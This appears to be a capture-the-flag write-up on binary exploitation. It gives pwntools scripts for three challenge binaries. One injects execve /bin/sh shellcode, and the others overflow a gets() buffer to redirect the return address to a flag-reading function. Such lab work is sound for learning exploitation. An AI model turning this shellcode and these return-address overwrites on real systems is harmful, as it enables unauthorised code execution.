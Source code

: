 # Binary Exploitation

## Overflow 0
```
from pwn import *

p = process('/problems/handy-shellcode_3_1a2e95a810eefe4a5994631812c0b8af/vuln')

context.arch = 'amd64'
#context.level = 'debug'

shellcode = '\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x89\xc1\x89\xc2\xb0\x0b\xcd\x80\x31\xc0\x40\xcd\x80'

p.write(shellcode)

p.interactive()

```

## Overflow 1

## Idea
We have a binary that is calling the vulnerable function `gets()`. Coincidentally it also contains a function to read the flag.txt
file. We can overwrite past the buffer and redirect the instruction pointer to call the flag() function. 

## Solution

```
from pwn import *

flag_addr = p32(0x080485e6)
p = process('/problems/overflow-1_0_48b13c56d349b367a4d45d7d1aa31780/vuln')
payload = "AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA"
payload += flag_addr

p.write(payload)
p.interactive()
```

Issue with first exploit is that because the exploit script is in the home directory it is
looking for the flag file in the home directory instead of the directory located in the challenge
folder. To fix issue
```  ln -s /problems/overflow-1_0_48b13c56d349b367a4d45d7d1aa31780/flag.txt ~/flag.txt ```

## Overflow 2 (Todo)

### Idea
1. Create the buffer
2. Overwrite the 32 bit register
3. Address of flag function
4. Overwrite the return address
5. First function
6. Second function
Go through each segfault and fix them

### Solution
```python -c 'from pwn import *; print "A"*176 + "B"*8 + p32(0x080485e6)'```

